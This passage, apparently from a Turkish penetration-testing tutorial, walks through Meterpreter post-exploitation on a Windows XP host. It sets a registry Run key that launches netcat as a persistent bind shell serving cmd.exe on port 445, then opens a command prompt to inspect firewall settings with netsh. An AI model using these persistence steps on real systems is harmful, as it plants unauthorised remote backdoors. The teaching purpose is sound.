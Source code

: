 

Komut çıktısında görüldüğü gibi şu an için `VMware Tools, VMware User Process, quicktftpserver` yazılımları otomatik başlamaya ayarlanmış durumda. Biz yeni ayarımızı `reg setval` komutu ile ilave edelim ve `reg queryval` komutu ile tekrar kontrol edelim.


```bash
meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32 c.exe -Ldp 445 -e cmd.exe'
Successful set nc.
meterpreter > reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
Key: HKLM\software\microsoft\windows\currentversion\Run
Name: nc
Type: REG_SZ
Data: C:\windows\system32 c.exe -Ldp 445 -e cmd.exe
```



<h3 class="wp-block-heading" id="firewall-ayarları">Firewall Ayarları



Doğrudan Registry ayarlarından yapabileceğinizi gibi `netsh` komutu ile de firewall ayarlarını yapabilirsiniz. Kullanımı göstermek açısından, firewall ayarlarını komut satırından ayarlayalım. Bunun için Meterpreter komut satırından Windows komut satırına girelim.


```bash
meterpreter > execute -f cmd -i
Process 1604 created.
Channel 1 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.
C:\ >
```



Firewall ayarlarının mevcut halini görelim.


```bash
C:\ > netsh firewall show opmode
Netsh firewall show opmode

Domain profile configuration:
-------------------------------------------------------------------
Operational mode                  **=** Enable
Exception mode                    **=** Enable

Standard profile configuration **(**current**)**:
-------------------------------------------------------------------
Operational mode                  **=** Enable
Exception mode                    **=** Enable

Local Area Connection firewall configuration:
-------------------------------------------------------------------
Operational mode                  **=** Enable
```
